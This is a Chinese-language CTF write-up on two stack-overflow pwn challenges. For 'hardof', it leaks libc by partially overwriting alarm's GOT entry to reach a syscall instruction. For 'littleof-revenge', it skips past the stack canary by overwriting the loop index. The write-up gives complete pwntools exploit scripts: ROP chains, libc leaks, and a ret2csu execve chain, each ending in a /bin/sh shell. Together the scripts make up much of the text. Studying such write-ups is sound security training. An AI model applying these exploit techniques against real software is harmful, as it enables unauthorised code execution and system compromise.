




# 前言
最近做了两道题目，感觉学到了很多，基础典型题目还是需要多熟悉一下，下面就分享一下做题的思路，一个是noleak，没有提供泄露函数如何去实现泄露地址；一个是在具有栈溢出，但开启了canary的情况下，没有泄露函数，read逐字节读入，通过覆盖buffer的index控制溢出点，跳过canary，实现覆盖返回地址。
# hardof <无泄露函数，修改alarm为syscall>
题目名为hardof，检查保护只开了NX保护，看下ida代码：
```c
ssize_t sub_400532()
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  return read(0, buf, 0x100uLL);
}
```
关键的函数，只有这一个溢出点，没有其他泄露函数，没有system，所以要泄露libc，执行system，重点就在如何泄露libc，这里可以利用pwn题一般都会有的alarm函数，利用它的地址和syscall的偏移，利用溢出和ROP修改alarm地址最后一个字节，使其指向alarm函数中syscall那条指令，然后通过write函数泄露出alarm的地址，获取libc。
## 分析
已知一个栈溢出，溢出长度为0x48，没有输出函数可以泄露，可以利用修改alarm的最后一个字节来转向syscall实现系统调用，通过write来泄露alarm的地址，再通过溢出获取shell，具体过程如下
1. 通过溢出覆盖返回地址为read，通过ROP实现修改alarm最后一个字节（注意用send()函数发送）
2. 接着返回到ROP链去修改write函数的相关寄存器
3. 继续返回到alarm的plt处触发已经修改的alarm_got，执行syscall write实现泄露alarm地址
4. 获取system、/bin/sh地址，获取shell。
## 修改alarm最后一字节
通过查找pop_rdi、pop_rsi_r15 的ROP链、read的plt表，实现用read修改alarm最后一字节
```bash
➜  附件 ROPgadget --binary hardof --only 'pop|ret' |grep rdi
0x00000000004005e3 : pop rdi ; ret
➜  附件 ROPgadget --binary hardof --only 'pop|ret' |grep rsi
0x00000000004005e1 : pop rsi ; pop r15 ; ret
➜  附件 ROPgadget --binary hardof --only 'pop|ret' |grep rax
➜  附件 
```
```python
    pop_rdi = 0x00000000004005e3
    ret = 0x0000000000400416
    pop_rsi_r15 = 0x04005e1
    main_addr = 0x400553
    alarm_got = elf.got["alarm"]
    alarm_plt = elf.plt["alarm"]
    read_plt = elf.plt["read"]
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(alarm_got) + p64(0) + p64(read_plt)
```
栈上的布局：



## 修改write相关寄存器，触发syscall
再利用ROP为write函数提供参数，参数为alarm got表地址，用来泄露alarm地址，随后让其返回到alarm plt调用alarm触发syscall实现输出alarm地址。这里有个隐含的点，没有控制rax的ROP，syscall的系统调用号怎么给eax的？这里主要是利用read的返回值，读入几个字符就返回个数几到eax，所以这里读入一字节后eax寄存器就是1，write函数的系统调用号刚好是1，实现了write的syscall
```python
    buff += p64(pop_rdi) + p64(1) + p64(pop_rsi_r15) + p64(alarm_got) + p64(0) + p64(alarm_plt) + p64(main_addr)
    sn(buff)
    sleep(1)
    sn('\x19')
    sleep(1)
```
查看alarm地址，可以看到syscall命令最后一字节是0x19，所以发送0x19将alarm最后一字节改为0x19:
```bash
gef➤  x/16gx 0x601018
0x601018 <alarm@got.plt>:       0x00007f0f80c6ff10      0x00007f0f80c9b130
0x601028:       0x0000000000000000      0x0000000000000000
0x601038:       0x0000000000000000      0x0000000000000000

gef➤  disassemble 0x00007f0f80c6ff10
Dump of assembler code for function alarm:
    0x00007f0f80c6ff10 <+0>:     endbr64 
    0x00007f0f80c6ff14 <+4>:     mov    eax,0x25
    0x00007f0f80c6ff19 <+9>:     syscall      <----------
    0x00007f0f80c6ff1b <+11>:    cmp    rax,0xfffffffffffff001
    0x00007f0f80c6ff21 <+17>:    jae    0x7f0f80c6ff24 <alarm+20>

gef➤  x/16gx 0x601018
0x601018 <alarm@got.plt>:       0x00007f0f80c6ff19      0x00007f0f80c9b130
0x601028:       0x0000000000000000      0x0000000000000000
0x601038:       0x0000000000000000      0x0000000000000000
```
可以看到已经改成功，然后开始返回到alarm plt泄露alarm地址，之后返回main函数继续利用获取shell
## 获取shell
拿到alarm地址后可以通过偏移计算libc地址，由于我们更改了最后以字节从0x10->0x19,所以最后要减去9
```python 
    libc.address = u64(rv(8)) - 9 - libc.symbols['alarm'] # 20.04
    lg("Libc", libc.address)
    system_addr = libc.symbols["system"]
    sh_addr = libc.search("/bin/sh").next()
```
再利用溢出覆盖返回地址获取shell
```python
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(sh_addr) + p64(system_addr)
    sn(buff)
```
## exp
此题核心点在于修改alarm最后一字节为syscall去实现利用，除了用syscall write泄露libc外还可以用ret2csu的原理去syscall execve去获取shell，以下给出exp
```python
# ret2libc
from pwn import *

remote_addr=['127.0.0.1',49156] # 23333 for ubuntu16, 23334 for 18, 23335 for 19
context.terminal = ["tmux", "sp","-h"]
context.log_level=True

#p=remote(remote_addr[0],remote_addr[1])
elf_path = "./hardof"
p = process(elf_path)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF(elf_path)

#gdb.attach(p, 'c')

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr = None):
    if addr:
        print('\033[1;31;40m[+]  %-15s  --> 0x%8x\033[0m'%(s,addr))
    else:
        print('\033[1;32;40m[-]  %-20s \033[0m'%(s))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

if __name__ == '__main__':
    pop_rdi = 0x00000000004005e3
    ret = 0x0000000000400416
    pop_rsi_r15 = 0x04005e1
    main_addr = 0x400553
    alarm_got = elf.got["alarm"]
    alarm_plt = elf.plt["alarm"]
    read_plt = elf.plt["read"]
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(alarm_got) + p64(0) + p64(read_plt) + p64(pop_rdi) + p64(1) + p64(pop_rsi_r15) + p64(alarm_got) + p64(0) + p64(alarm_plt) + p64(main_addr)
    
    sn(buff)
    sleep(1)
    sn('\x19')
    gdb.attach(p)
    sleep(1)
    #libc.address = u64(rv(8)) - 5 - libc.symbols['alarm'] # 18.04
    libc.address = u64(rv(8)) - 9 - libc.symbols['alarm'] # 20.04
    lg("Libc", libc.address)
    system_addr = libc.symbols["system"]
    sh_addr = libc.search("/bin/sh").next()
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(sh_addr) + p64(system_addr)
    sn(buff)
    p.interactive()
```
```python
from pwn import *

remote_addr=['127.0.0.1',49156] # 23333 for ubuntu16, 23334 for 18, 23335 for 19
context.terminal = ["tmux", "sp","-h"]
context.log_level=True

#p=remote(remote_addr[0],remote_addr[1])
elf_path = "./hardof"
p = process(elf_path)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF(elf_path)

#gdb.attach(p, 'c')

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr = None):
    if addr:
        print('\033[1;31;40m[+]  %-15s  --> 0x%8x\033[0m'%(s,addr))
    else:
        print('\033[1;32;40m[-]  %-20s \033[0m'%(s))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

if __name__ == '__main__':
    bss = 0x601038
    pop_rdi = 0x00000000004005e3
    ret = 0x0000000000400416
    pop_rsi_r15 = 0x04005e1
    main_addr = 0x400553
    alarm_got = elf.got["alarm"]
    alarm_plt = elf.plt["alarm"]
    read_plt = elf.plt["read"]
    
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(bss) + p64(0) + p64(read_plt) + p64(main_addr)
    #gdb.attach(p)
    sn(buff)
    sleep(1)
    
    sn('/bin/sh\x00')
    sleep(1)
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(alarm_got) + p64(0) + p64(read_plt) 
    buff += p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(bss+24) + p64(0) + p64(read_plt) 
    buff += p64(0x4005DA) + p64(0)+p64(1)+p64(alarm_got)+p64(bss)+p64(0)+p64(0)+p64(0x4005C0)
    sn(buff)
    
    sleep(1)
    sn('\x15') # ubuntu 18.04
    #sn('\x19') #ubuntu20.04
    sleep(1)
    #gdb.attach(p)
    sn('a'*0x3b)
    p.interactive()
```
# littleof-revenge  <控制buffer下标实现溢出，及绕过canary>
题目保护开启了NX，canary，ida看下题目,没有system，只有以下一个函数存在溢出，溢出长度为0x58，逻辑：
```c
unsigned __int64 sub_4006A2()
{
  char v1[64]; // [rsp+10h] [rbp-50h] BYREF
  int i; // [rsp+50h] [rbp-10h]
  unsigned __int64 v3; // [rsp+58h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Do you know how to do buffer overflow?");
  for ( i = 0; i != 0x41; ++i )
  {
    read(0, &v1[i], 1uLL);
    if ( v1[i] == '\n' )   <----------漏洞点
      break;
  }
  return __readfsqword(0x28u) ^ v3;
}

```
## 分析
这里看似没啥问题，但是需要注意的是，这里read是一个字节一个字节读的，结束循环条件为`i!=0x41`（这个条件也很危险，一旦i变成比0x41大的数，就会出现溢出），常理说当i增加到0x41的时候执行完就会跳出循环，或者字符等于`\n`的时候，但是注意这里是按照`&buf+i`的方式写入的，如果我们再写入的时候能够控制i的大小就可以控制其写入的起始地方，这里当然也可以这跟i这个变量的存储位置有关，经过ida反编译后看不出i的位置，可以看汇编有所体现（也可调试更直观地看到）：
```bash
.text:00000000004006A2                 push    rbp
.text:00000000004006A3                 mov     rbp, rsp
.text:00000000004006A6                 sub     rsp, 60h
.text:00000000004006AA                 mov     rax, fs:28h       <--rax = canary>
.text:00000000004006B3                 mov     [rbp+var_8], rax  <--[rbp-8] = rax = canary>
.text:00000000004006B7                 xor     eax, eax
.text:00000000004006B9                 lea     rax, [rbp+var_50] <------rax=[rbp-0x50] buf首地址>
.text:00000000004006BD                 add     rax, 40h ; '@'    <------rax = buf + 0x40 = i
.text:00000000004006C1                 mov     [rbp+var_58], rax <------[rbp-0x58] = buf+0x40 = i>
.text:00000000004006C5                 lea     rdi, s          ; "Do you know how to do buffer overflow?"
...
...
.text:000000000040070B                 cmp     al, 0Ah
.text:000000000040070D                 jz      short loc_40072B
.text:000000000040070F                 mov     rax, [rbp+var_58] <--rax = [rbp-0x58] = i>
.text:0000000000400713                 mov     eax, [rax]
.text:0000000000400715                 lea     edx, [rax+1]      <-- i+1 等同于地址加一>
.text:0000000000400718                 mov     rax, [rbp+var_58]
.text:000000000040071C                 mov     [rax], edx        <-- i = i + 1>
```
由汇编可以看到，计数的i存在buf+0x40的地方，存在被覆盖的风险，一旦被覆盖，i的之就会变，可以利用这点将i覆盖成大于0x41的数从而实现溢出，而选择写入地址为canary后即可跳过canary，从而实现覆盖返回地址。
## 利用思路
1. 通过溢出点覆盖i为0x54，实现溢出并且跳过canary
2. 返回地址为put_plt,将put地址泄露出来，获取libc
3. 同样利用溢出覆盖返回地址为system，拿到shell
## 覆盖技计数i，实现溢出和跳过canary
可以构造下面payload：
```python
    pop_rdi = 0x0000000000400823
    ret = 0x400566
    main_addr = 0x400743
    puts_got = elf.got["puts"]
    puts_plt = elf.plt["puts"]
    ru("?\n")
    buff = "A" * 0x40 + p32(0x123454) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
```
可以调试可以看到循环read(buf[i])的时候,i存在buf+0x40处：



可以看到i被存在buf+0x40处，当覆盖到0x40时，可以将i覆盖成0x54，跳过canary，这里0x54选取有一定技巧，刚好跳过canary，且指向buf+0x55(rbp+5)的地方：


此时是没有被覆盖，当再次read时，i就会被覆盖成0x54,跳过canary到buf+0x55的地方



看一下发送的数据


再次执行read会将buf+0x55以及以后的字节覆盖，这里可以使用p32(0x123454),末字节54填充i，剩余0x001234用于填充rbp剩余部分字节对齐.
## 泄露put地址，获取libc
之后填充pop_rdi,put_got,put_plt,main,泄露put地址，拿到libc，然后用同样的方法覆盖返回地址为system拿到shell。


## 获取shell

```python
    puts_addr = raddr(6)
    libc.address = puts_addr - libc.symbols["puts"]
    lg("libc address", libc.address)

    system_addr = libc.symbols["system"]
    sh_addr = libc.search("/bin/sh").next()
    ru("?\n")
    buff = "A" * 0x40 + p32(84) + p64(pop_rdi) + p64(sh_addr) + p64(ret) + p64(system_addr)
    p.sendline(buff)
```
这里得说一下，p64(ret)的作用，system的系统调用要求内存16字节对齐，ret的作用就是对齐。



在没有ret的时候后正常应该在0x7ffd54354818处填充system，但是该地址不对齐，填充一个ret(8字节)，system填充在0x7ffd54354820处，字节对齐，如下
```python
>>> 0x7ffd54354818/16.0
8795376014465.5
>>> 0x7ffd54354820/16.0
8795376014466.0
```
## exp
```python
from pwn import *

remote_addr=['127.0.0.1',49156] # 23333 for ubuntu16, 23334 for 18, 23335 for 19
context.log_level=True
context.terminal = ['tmux','sp','-h']
#p=remote(remote_addr[0],remote_addr[1])
elf_path = "./littleof_revenge"
p = process(elf_path)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF(elf_path)

#gdb.attach(p, 'c')

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr = None):
    if addr:
        print('\033[1;31;40m[+]  %-15s  --> 0x%8x\033[0m'%(s,addr))
    else:
        print('\033[1;32;40m[-]  %-20s \033[0m'%(s))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

if __name__ == '__main__':
    pop_rdi = 0x0000000000400823
    ret = 0x400566
    main_addr = 0x400743
    puts_got = elf.got["puts"]
    puts_plt = elf.plt["puts"]
    ru("?\n")
    buff = "A" * 0x40 + p32(0x123454) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
    gdb.attach(p)
    p.sendline(buff)
    puts_addr = raddr(6)
    libc.address = puts_addr - libc.symbols["puts"]
    lg("libc address", libc.address)

    system_addr = libc.symbols["system"]
    sh_addr = libc.search("/bin/sh").next()
    ru("?\n")
    buff = "A" * 0x40 + p32(84) + p64(pop_rdi) + p64(sh_addr) + p64(ret) + p64(system_addr)
    p.sendline(buff)
    p.interactive()
```
## 


web1-injection1
web2-injection2
web3-file_upload
web4-file_include
网络安全 
上午：injection1 、 secret
下午：babyof 、try_it、babyRe、misc1、file_upload、file_include
信息安全
上午：easy_sql 、 misc2
下午：magic、misc3、misc4、misc5、misc6、injection2